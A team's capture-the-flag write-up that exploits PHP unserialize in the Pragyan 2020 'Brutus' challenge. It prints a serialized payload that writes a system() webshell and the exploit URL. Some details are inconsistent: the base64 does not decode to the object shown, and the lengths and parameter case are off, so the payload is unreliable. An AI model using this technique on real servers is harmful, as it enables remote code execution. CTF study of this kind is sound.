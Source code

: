 ```yaml
---
title: Brutus - Pragyan CTF 2020
layout: post
category: web
date: 2020-02-26
---
```


## Brutus [150 pts]

#### Solved?

Yes

#### Tried:

After reading the source code we came to the conclusion that the vulnerable piece of the puzzle was *unserialize*.

```
function setFooter(){
  if(isset($_GET['newFooter'])){
    $newFooter=unserialize(base64_decode($_GET["newFooter"]));
    echo '<div class="footer">'.$newFooter.'</div>';
  }
  else{
    echo '<div class="footer">Pragyan 2020!</div>';
  }
}
```

As per my understanding after reading few blogs about PHP unserialization vulnerabilites I found out that magic methods such as __construct
and __destruct are called automatically without call the function itself.

So, we needed an object to exploit it (Just like as in ROP we need gadgets) and we noticed that in *pageContent* class our magic methods were defined.

```
class pageContent{
  private $file_name;
  private $newContent;

  function __construct() 
  { 
    $this->file_name="txt/content.txt"; 
    $file = file_get_contents($this->file_name);
    $this->newContent=$file;
  } 

  function setContent($newContent){
    $this->newContent=$newContent;
  }

  function __destruct() 
  { 
    $fd=fopen($this->file_name,"w");
    fwrite($fd,$this->newContent);
    fclose($fd);
  } 
}
```

As our input is already in the unserialized method we won't need to use __construct and will use __destruct instead. But for understanding 
purpose all __construct does is reading file content at `txt/content.txt`.

So it narrowed down our possible soultion to __destruction method which just writes our data to any file we specify without sanitizing user
input ofcourse.

We needed to create our exploit as such it will call *pageContent* class with our argument i.e filename and it's content.

Following is the snippet we used to create serialized object for the class and it's argument, kai.php as the filename and php webshell as the 
content.

```
<?php

class pageContent{
  public $file_name = 'txt/kai.php';
  public $newContent = "<?php system('ls -la')?>";

}

$obj = new pageContent;

echo htmlspecialchars(serialize($obj));

?>
```

#### Object: 

```O:11:"pageContent":2:{s:9:"file_name";s:11:"txt/kai.php";s:10:"newContent";s:29:"<?php system($_GET['kai']);?>";}```

#### Base64: 

```TzoxMToicGFnZUNvbnRlbnQiOjI6e3M6OToiZmlsZV9uYW1lIjtzOjEyOiJ0eHQvYW1hbi50eHQiO3M6MTA6Im5ld0NvbnRlbnQiO3M6NToidGVzdDEiO30=```

#### Webshell:

In order to call unserialize function we had to pass ```newFooter``` GET parameter and our payload as it's value.

```http://ctf.pragyan.org:9000/?newfooter=TzoxMToicGFnZUNvbnRlbnQiOjI6e3M6OToiZmlsZV9uYW1lIjtzOjEyOiJ0eHQvYW1hbi50eHQiO3M6MTA6Im5ld0NvbnRlbnQiO3M6NToidGVzdDEiO30=```

And we got our shell at ```http://ctf.pragyan.org:9000/txt/kai.php```

**Team UnderDawgs**
